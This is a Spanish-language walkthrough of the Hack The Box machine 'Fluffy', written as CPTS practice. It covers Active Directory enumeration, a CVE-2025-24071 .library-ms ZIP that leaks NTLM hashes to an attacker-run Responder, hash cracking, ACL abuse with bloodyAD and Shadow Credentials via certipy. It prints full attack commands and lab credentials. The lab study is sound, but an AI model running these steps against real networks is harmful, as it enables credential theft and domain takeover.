# Fluffy — Hack The Box (práctica CPTS)

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Windows (Active Directory)
**Certificación:** Práctica adicional para el CPTS (Certified Penetration Testing Specialist)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Enumeración SMB con credenciales dadas · **CVE-2025-24071** (fuga de hash NTLM vía `.library-ms`) · Responder · Hashcat (NetNTLMv2) · Abuso de ACLs de AD (`bloodyAD`) · **Shadow Credentials** (`certipy-ad shadow auto`) · Pass-the-hash con Evil-WinRM · **ESC16** (ADCS) · Manipulación de UPN → Administrator
**Idioma:** Español — [🇬🇧 English version](./Fluffy_Writeup_EN.md)

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración](#2-enumeración)
3. [Acceso inicial — CVE-2025-24071 y captura de hash](#3-acceso-inicial--cve-2025-24071-y-captura-de-hash)
4. [Obtención de shell — abuso de ACLs y Shadow Credentials](#4-obtención-de-shell--abuso-de-acls-y-shadow-credentials)
   - [Escalada de privilegios — ESC16](#escalada-de-privilegios--esc16)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Glosario de herramientas y comandos](#7-glosario-de-herramientas-y-comandos)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.72.203
```

> 🛠️ **`ping`** — comprueba disponibilidad del host mediante ICMP. TTL **127** → sistema **Windows**.



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.72.203
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — escaneo SYN de los 65535 puertos. `-sS` (sigiloso, sin completar el handshake), `-Pn` (ignora el estado del ping), `--min-rate 5000` (acelera el envío), `--open` (solo puertos abiertos), `-n` (sin resolución DNS).



```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — script propio que resume la salida de Nmap: IP, TTL, SO estimado y lista de puertos lista para el siguiente `-p`.



> 💡 19 puertos abiertos, entre ellos **53 (DNS), 88 (Kerberos), 389/636 (LDAP/LDAPS), 445 (SMB), 3268/3269 (Global Catalog), 5985 (WinRM) y 9389 (ADWS)** — el conjunto de servicios característico de un **controlador de dominio de Active Directory**.

Escaneo de versión y scripts por defecto sobre los puertos encontrados:

```bash
nmap -sS -Pn -sCV -T5 -n -p53,88,139,389,445,464,593,636,3268,3269,5985,9389,49667,49689,49690,49699,49704,49714,49734 -oN Ports 10.129.72.203
```

> 🛠️ **`-sCV`** combina `-sC` (scripts por defecto de Nmap) con `-sV` (detección de versión de servicio); junto con los certificados TLS de LDAPS, revela el nombre del dominio y del controlador sin necesidad de enumeración adicional.



```
Subject Alternative Name: DNS:DC01.fluffy.htb, DNS:fluffy.htb, DNS:FLUFFY
```

> 💡 Dominio **`fluffy.htb`**, controlador **`DC01`**. Como es habitual en los laboratorios de AD "assumed breach" de HTB/CPTS, se arranca con credenciales de un usuario de dominio ya proporcionadas: **`j.fleischman` / `J0elTHEM4n1990!`**.

## 2. Enumeración

Añadimos la resolución del dominio al fichero de hosts local:

```bash
echo "10.129.72.203 DC01.fluffy.htb fluffy.htb" >> /etc/hosts
```

> 🛠️ **`/etc/hosts`** — resolución de nombres manual, imprescindible en pentests de AD: Kerberos y muchas herramientas (`bloodyAD`, `certipy-ad`, `evil-winrm`) dependen de resolver el FQDN del dominio y del DC, no solo de su IP.



Enumeramos los recursos compartidos SMB con las credenciales de `j.fleischman`:

```bash
smbclient -L //10.129.72.203/ -U j.fleischman
```

> 🛠️ **`smbclient -L`** — lista (`-L`) los shares disponibles en un host SMB con las credenciales indicadas (`-U`). Es el primer paso estándar de enumeración SMB autenticada.



```
ADMIN$   Disk   Remote Admin
C$       Disk   Default share
IPC$     IPC    Remote IPC
IT       Disk
NETLOGON Disk   Logon server share
SYSVOL   Disk   Logon server share
```

Más allá de los shares administrativos/por defecto (`ADMIN$`, `C$`, `IPC$`, `NETLOGON`, `SYSVOL`), destaca el share personalizado **`IT`**. Nos conectamos:

```bash
smbclient //10.129.72.203/IT -U j.fleischman
smb: \> ls
smb: \> get Everything-1.4.1.1026.x64.zip
smb: \> get KeePass-2.58.zip
smb: \> get Upgrade_Notice.pdf
```

> 🛠️ **`get`** (dentro de la sesión `smbclient`) — descarga un fichero remoto al directorio local actual.



Abrimos el PDF descargado:




> 💡 El documento es un aviso interno de parcheo ("Mandatory Timeslot Booking for Critical Updates") dirigido al departamento de IT, con una tabla de vulnerabilidades pendientes de aplicar: `CVE-2025-24996` (Crítica), **`CVE-2025-24071` (Crítica)**, `CVE-2025-46785` (Alta), `CVE-2025-29968` (Alta), `CVE-2025-21193` (Media) y `CVE-2025-3445` (Baja). `CVE-2025-24071` es la vía de entrada: una fuga de hash NTLM al **extraer** un ZIP que contiene un fichero `.library-ms` malicioso, sin necesidad de abrir nada.

## 3. Acceso inicial — CVE-2025-24071 y captura de hash

### ¿Qué es CVE-2025-24071 y por qué funciona?

Un fichero **`.library-ms`** define una "biblioteca" de Windows Explorer (una vista virtual que agrupa carpetas, como las bibliotecas de Documentos o Imágenes). Su XML interno puede declarar una ruta de red (`<url>\\IP\recurso</url>`) como una de las ubicaciones agrupadas.

El fallo (CVE-2025-24071, renombrada posteriormente por Microsoft a **CVE-2025-24054**) está en **cuándo** Windows Explorer intenta resolver esa ruta: no hace falta abrir el `.library-ms` ni hacer doble clic en él. **Basta con extraerlo de un `.zip`/`.rar`** para que Explorer, al indexarlo/mostrarlo en la carpeta de destino, dispare automáticamente una conexión SMB hacia la ruta de red declarada dentro del fichero.

Esa conexión SMB, como cualquier otra iniciada por Windows de forma transparente, **se autentica automáticamente con las credenciales de la sesión activa** vía NTLM. Si el "recurso de red" al otro lado es en realidad un servidor SMB falso (Responder), este captura el intercambio completo de autenticación: usuario, dominio y un hash **NTLMv2** crackeable offline — sin que la víctima haga nada más que extraer el ZIP.

```bash
git clone https://github.com/0x6rss/CVE-2025-24071_PoC.git
```

> 🛠️ **PoC de `0x6rss`** — genera automáticamente un `.library-ms` malicioso apuntando a la IP indicada, y lo empaqueta dentro de un `.zip` listo para distribuir.





Generamos el ZIP malicioso:

```bash
python3 poc.py
Enter your file name: arabot
Enter IP (EX: 192.168.1.162): 10.10.15.31
```

> 🛠️ **`poc.py`** — pide un nombre de fichero señuelo y la IP del atacante, y produce `exploit.zip` con el `.library-ms` malicioso apuntando a `\\10.10.15.31\...`.



### Preparando la captura con Responder

```bash
sudo responder -I tun0
```

> 🛠️ **Responder** — simula servicios de red (SMB, LLMNR, NBT-NS...) y captura cualquier intento de autenticación NTLM dirigido a ellos, sin necesidad de credenciales previas. Es el "servidor" que recibe la conexión disparada por el `.library-ms` malicioso. `-I tun0` fija la interfaz de la VPN de HTB como punto de escucha.



Subimos el ZIP al share `IT`, donde ya confirmamos permisos de escritura:

```bash
smbclient //10.129.72.203/IT -U j.fleischman
smb: \> put exploit.zip
```



En cuanto el personal de IT revisa/extrae el fichero subido, Windows dispara la conexión SMB hacia nuestra IP y Responder captura la autenticación de **otro usuario del dominio**:



```
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:...
```

### Crackeando el hash capturado

```bash
hashid -m "<hash>"
```

> 🛠️ **`hashid`** — identifica el tipo de hash y, con `-m`, indica directamente el modo correspondiente de hashcat (aquí, **5600** = NetNTLMv2).



```bash
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```

> 🛠️ **`hashcat -m 5600`** — ataque de diccionario sobre un hash NetNTLMv2 contra `rockyou.txt`, el diccionario de contraseñas filtradas más usado en CTFs/pentests.




```
p.agila:prometheusx-303
```

## 4. Obtención de shell — abuso de ACLs y Shadow Credentials

Con credenciales de dominio válidas (`p.agila`), enumeramos sus grupos con `bloodyAD`:

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.72.203 get object "p.agila" --attr memberOf
```

> 🛠️ **`bloodyAD`** — herramienta de enumeración y abuso de Active Directory sobre LDAP, pensada para ejecutarse desde Linux sin necesidad de unirse al dominio. `get object <objeto> --attr <atributo>` consulta un atributo LDAP concreto de un objeto.



`p.agila` pertenece al grupo **`Service Account Managers`**. Comprobamos quién más es miembro:

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.72.203 get object "service account managers" --attr member
```



### ¿Qué significan los permisos ACL que encontramos?

Consultamos qué objetos del directorio puede **escribir** nuestro usuario — es decir, dónde tiene permisos de control de acceso (ACE) que permiten modificar atributos de otros objetos:

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.72.203 get writable
```

> 🛠️ **`get writable`** — recorre la DACL (Discretionary Access Control List) de los objetos del dominio y lista aquellos sobre los que el usuario autenticado tiene algún derecho de escritura, útil para detectar rutas de escalada basadas en abuso de permisos de AD (ACL abuse) sin depender de una herramienta gráfica como BloodHound.



```
CN=Service Accounts,CN=Users,DC=fluffy,DC=htb
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE
```

> 💡 **`OWNER: WRITE`** y **`DACL: WRITE`** sobre el grupo `Service Accounts` significan que `p.agila` puede **modificar la propia lista de control de acceso** de ese grupo — y, por tanto, concederse a sí mismo (o a cualquier otro principal) cualquier permiso sobre él, incluido el de añadirse como miembro. Es un abuso de ACL clásico: no hace falta `GenericAll` explícito si ya se controla quién controla los permisos.

Nos añadimos al grupo:

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.72.203 add groupMember 'service accounts' p.agila
```

> 🛠️ **`add groupMember <grupo> <usuario>`** — añade un principal como miembro de un grupo de AD, siempre que el usuario autenticado tenga permisos suficientes (aquí, heredados del control sobre la DACL del propio grupo).



Repetimos la consulta de objetos escribibles. La pertenencia al grupo `Service Accounts` ahora nos da escritura directa sobre dos cuentas:

```bash
bloodyAD -u 'p.agila' -p 'prometheusx-303' -d fluffy.htb --host 10.129.72.203 get writable
```



```
certificate authority service   WRITE
winrm service                   WRITE
```

Estas dos cuentas corresponden a los **sAMAccountName** `ca_svc` y `winrm_svc` — nombres que ya anticipan su función: una cuenta de servicio de la Autoridad Certificadora (ADCS) y una cuenta con permisos de conexión WinRM.

Antes de interactuar con Kerberos/certificados, sincronizamos el reloj con el DC (Kerberos tolera muy poco desfase horario):

```bash
sudo net time set -S 10.129.72.203
```

> 🛠️ **`net time set -S <DC>`** — sincroniza la hora del sistema local contra la del servidor indicado. Un desfase de más de 5 minutos (por defecto) invalida los tickets Kerberos.


### ¿Qué son las Shadow Credentials y por qué funcionan?

**Shadow Credentials** es una técnica que abusa del atributo `msDS-KeyCredentialLink` de un objeto de AD (introducido para soportar **Windows Hello for Business** y la autenticación mediante clave pública/certificado). Si un atacante tiene permisos de escritura sobre ese atributo en la cuenta de una víctima (como aquí, heredados de la pertenencia al grupo `Service Accounts`), puede:

1. Generar un par de claves y un certificado propios.
2. Vincular la clave pública de ese certificado al `msDS-KeyCredentialLink` de la cuenta víctima — **sin tocar ni conocer su contraseña actual**.
3. Autenticarse como esa cuenta usando **PKINIT** (autenticación Kerberos basada en certificado) con la clave privada propia, obteniendo un TGT.
4. Pedir al KDC, a través de la extensión **U2U (User-to-User)** del protocolo, el hash NT de la cuenta — el propio TGT obtenido sirve como prueba de identidad para solicitarlo.

El resultado neto es equivalente a un reseteo de contraseña, pero **completamente sigiloso**: la contraseña original de la cuenta víctima nunca cambia, no hay bloqueo de cuenta ni notificación, y la credencial añadida puede incluso revertirse después.

```bash
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account winrm_svc
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc
```

> 🛠️ **`certipy-ad shadow auto -account <cuenta>`** — automatiza las 4 fases anteriores: genera el certificado, lo vincula como Key Credential, obtiene el TGT vía PKINIT y recupera el hash NT por U2U, todo en un solo comando.


